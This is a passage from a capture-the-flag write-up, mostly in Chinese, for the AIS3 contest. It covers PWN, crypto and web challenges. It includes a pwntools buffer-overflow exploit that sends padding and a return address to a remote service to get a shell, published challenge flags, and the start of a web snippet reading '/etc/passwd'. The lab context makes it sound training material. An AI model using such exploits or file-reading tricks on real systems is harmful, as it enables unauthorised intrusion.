     ```
* **Flag : AIS3{y3s_y0u_h4ve_s4w_7h1s_ch4ll3ng3_bef0r3_bu7_its_m0r3_looooooooooooooooooong_7h1s_t1m3}**

## PWN

### BOF
* That is easy-peasy challenge and even my grandma can do.
    nc 60.250.197.227 10000
    Challenge environment: Ubuntu 18.04
* 這一題是去年的題目 Welcome BOF
* 跟去年八成像，唯一要改的是 ip 位置還有 port
* 所以說我稍微改了一下去年的 code 
    ```python=
    from pwn import *
    ip   = '60.250.197.227'
    prot = 10001
    r = remote(ip, prot)
    #r = process("./return")

    r.recvuntil("ubuntu 18.04.")
    r.sendline(b"A" * 48 + p64(0x400687))

    r.interactive()
    ```
    
## Crypto

### Brontosaurus
* Brontosaurus peek at last year’s problems with a long neck and picked up "KcufsJ".
* 這一題是去年的題目 kcufsj
* 今年的解題方式跟去年一樣，先把 jsfuck 的內容先倒過來，之後再用 https://enkhee-osiris.github.io/Decoder-JSFuck/ decode 一下就有 flag 了
* **Flag : AIS3{Br0n7Os4uru5_ch3at_3asi1Y}**

### T-Rex
* Tyrannosaurus-rex is an nihilist.
* 這是 polybius square 的題目，我用的是 https://cryptii.com/pipes/polybius-square 來解題
* 需要注意的一點是這個網站是先取行再取列，但是題目是先取列再取行，所以說順序要改一下
    ![](https://i.imgur.com/OdbXyTt.png)
* 因為全部都是小寫，要轉成大寫
* **Flag : AIS3{TYR4NN0S4URU5_R3X_GIV3_Y0U_SOMETHING_RANDOM_5TD6XQIVN3H7EUF8ODET4T3H907HUC69L6LTSH4KN3EURN49BIOUY6HBFCVJRZP0O83FWM0Z59IISJ5A2VFQG1QJ0LECYLA0A1UYIHTIIT1IWH0JX4T3ZJ1KSBRM9GED63CJVBQHQORVEJZELUJW5UG78B9PP1SIRM1IF500H52USDPIVRK7VGZULBO3RRE1OLNGNALX}**

## Web

### Squirrel
* Hack those creepy rats.
* https://squirrel.ais3.org/
* 這一題先 inspect 一下，可以找到 script 標籤中的內容
    ```js=
    const squirrelFile = '/etc/passwd';
